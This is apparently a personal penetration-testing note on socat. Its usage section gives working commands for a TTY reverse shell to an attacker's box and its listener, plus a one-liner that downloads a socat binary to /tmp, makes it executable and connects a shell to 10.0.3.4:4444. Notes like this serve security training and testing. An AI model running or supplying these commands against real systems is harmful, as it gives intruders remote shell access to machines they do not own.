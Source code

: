 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
[Socat](https://linux.die.net/man/1/socat) is similar to netcat but offers some additional features, like bi-directional port forwarding to connected serial devices. One particular use is to [upgrade a shell to a fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat). The standalone binary of *socat* can be transferred to a target for a more stable reverse shell connection.

Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunnelling. It acts as a redirector that listens on on host and port, forwarding the traffic to another host and port.
## Installation
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```

## Documentation
**Cheatsheet:** 
**Website:** 
- http://www.dest-unreach.org/socat/
- https://github.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat
## Usage
### Create a Socat TTY reverse shell
On the victim (with Socat installed):
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[atkbox IP]:[port]
```
On attack box, listen with:
```
socat file:`tty`,raw,echo=0 tcp-listen:[port]
```

### Install Socat, chmod it, exec TTY reverse shell
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
1. This downloads Socat from : [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries) to a writable directory
2. Chmod it to be executable
3. Then execute the reverse shell

### Reverse shell redirection
![[Pivoting, Tunnelling, and Port Forwarding#Using Socat redirection for Reverse Shells]]

### Bind shell redirection
![[Pivoting, Tunnelling, and Port Forwarding#Using Socat redirection for Bind Shells]]